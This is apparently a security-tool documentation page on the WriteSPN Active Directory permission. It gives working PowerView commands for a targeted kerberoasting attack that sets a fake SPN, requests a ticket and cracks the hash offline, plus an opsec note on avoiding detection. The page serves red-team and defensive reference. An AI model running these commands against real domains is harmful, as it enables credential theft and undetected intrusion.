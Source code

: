 ---
title: WriteSPN
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

The ability to write directly to the servicePrincipalNames attribute on a user object. Writing to this property gives you the opportunity to perform a targeted kerberoasting attack against that user.

Abuse Info[](#heading-1)
------------------------

A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with Get-DomainSPNTicket.

You may need to authenticate to the Domain Controller as the user with full control over the target user if you are not running a process as that user. To do this in conjunction with Set-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\\dfm.a', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as the user with full control over the target user.
```
Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```
After running this, you can use Get-DomainSPNTicket as follows:
```
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
```
The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:
```
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
```
Opsec Considerations[](#heading-2)
----------------------------------

Modifying the servicePrincipalName attribute will not, by default, generate an event on the Domain Controller. Your target may have configured logging on users to generate 5136 events whenever a directory service is modified, but this configuration is very rare.

References[](#heading-3)
------------------------

* [https://blog.harmj0y.net/redteaming/kerberoasting-revisited/](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/)

